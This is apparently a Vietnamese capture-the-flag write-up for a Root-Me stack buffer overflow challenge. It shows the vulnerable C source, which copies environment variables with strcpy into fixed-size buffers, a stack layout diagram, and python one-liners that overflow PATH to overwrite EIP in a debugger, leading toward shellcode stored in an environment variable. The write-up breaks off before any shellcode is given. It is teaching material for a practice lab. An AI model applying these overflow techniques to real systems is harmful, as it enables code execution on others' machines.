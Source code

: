 
# Co-che-hoat-dong-cua-ma-doc - challenge 5 CTF Write up
```html
ELF x86 - Stack buffer overflow basic 4: ssh -p 2222 app-systeme-ch8@challenge02.root-me.org 
```

![image](https://user-images.githubusercontent.com/64201705/120130184-bac8d300-c1ef-11eb-9a06-2c075e009029.png)

## Write up

```Text
Sau khi SSH vào server thì ta dùng lệnh cat để in code trong file source code ra
app-systeme-ch8@challenge02:~$ cat ch8.c
```
Ta sẽ được như này:
```C
#include <stdio.h>
#include <stdlib.h>
#include <dirent.h>
#include <string.h>

struct EnvInfo
{
  char home[128];
  char username[128];
  char shell[128];
  char path[128];
};


struct EnvInfo GetEnv(void)
{
  struct EnvInfo env;
  char *ptr;

  if((ptr = getenv("HOME")) == NULL)
    {
      printf("[-] Can't find HOME.\n");
      exit(0);
    }
  strcpy(env.home, ptr);
  if((ptr = getenv("USERNAME")) == NULL)
    {
      printf("[-] Can't find USERNAME.\n");
      exit(0);
    }
  strcpy(env.username, ptr);
  if((ptr = getenv("SHELL")) == NULL)
    {
      printf("[-] Can't find SHELL.\n");
      exit(0);
    }
  strcpy(env.shell, ptr);
  if((ptr = getenv("PATH")) == NULL)
    {
      printf("[-] Can't find PATH.\n");
      exit(0);
    }
  strcpy(env.path, ptr);
  return env;
}

int main(void)
{
  struct EnvInfo env;

  printf("[+] Getting env...\n");
  env = GetEnv();

  printf("HOME     = %s\n", env.home);
  printf("USERNAME = %s\n", env.username);
  printf("SHELL    = %s\n", env.shell);
  printf("PATH     = %s\n", env.path);

  return 0;
}
```
Đối với challenge này, ta thấy chương trình sẽ load biến môi trường lên và sử dụng hàm `strcpy` để thực hiện copy env đó qua con trỏ ptr. Vì thế, ta sẽ nghĩ tới việc chương trình sẽ load đoạn shell code do ta chuẩn bị nằm trong biến môi trường và copy qua con trỏ. Sau đó sẽ ghi đè câu lệnh return 0 để gọi tới hàm có địa chỉ nằm trong shell code.
Đầu tiên ta thấy chương trình cần biến môi trường `USERNAME` cho nên ta sẽ export biến này trước: `export USERNAME=AAAA`
Sau khi gọi hàm Getenv() và gần tới câu lệnh return, stack sẽ có dạng:
540 - 128 = 412, 412 - 128 = 284 và 284 - 128 = 156
```
            +----------------------------+
            |      HOME env variable     |     %ebp - 540
            +----------------------------+
            |    USERNAME env variable   |     %ebp - 412
            +----------------------------+
            |      SHELL env variable    |     %ebp - 284
            +----------------------------+
            |      PATH env variable     |     %ebp - 156
            +----------------------------+
            |           saved ebp        |
            +----------------------------+
            |        return address      |     %ebp + 4
            +----------------------------+
            |   rep movsl dest. address  |     %ebp + 8
            +----------------------------+  
```
Ta sẽ set biến môi trường USERNAME bằng một đoạn văn bản nào đó:

![image](https://user-images.githubusercontent.com/64201705/120205711-79b6da00-c254-11eb-9af5-346156c0dabb.png)

Ta sẽ thử ghi đè EIP để xem có chuyển hướng chương trình được không, ở đây offset của EIP sẽ là 164 - 16 

```bash
PATH=$(/usr/bin/python -c 'print "/usr/local/bin:" + "A" * (164-16)') peda -ex "run" ./ch8

```
![image](https://user-images.githubusercontent.com/64201705/120206275-327d1900-c255-11eb-8600-7ae63b32b00d.png)
Ta thấy EIP bị ghi đè bởi kí tự "AAA"
Tiếp theo ta sẽ thử ghi đè lên %ebp + 8 | rep movsl destination address để gọi shellcode của ta được lưu trong biến môi trường SHELLCODE sẽ tạo sau này:
- Trước hết, ta xem địa chỉ dòng lệnh ret nằm ở vị trí nào, ta sẽ đặt breakpoint ngay trước lệnh ret:
![image](https://user-images.githubusercontent.com/64201705/120206972-0746f980-c256-11eb-8790-e8dba35e7bfa.png)

- Bây giờ ta sẽ tiến hành ghi đè nó bằng payload:
`PATH=$(/usr/bin/python -c 'print "/usr/local/bin:" + "A" * (161-16) + "AAAA"') peda -ex "b*0x08048672" -ex "run" -ex "i f" -ex "x/3wx \$ebp" ./ch8`
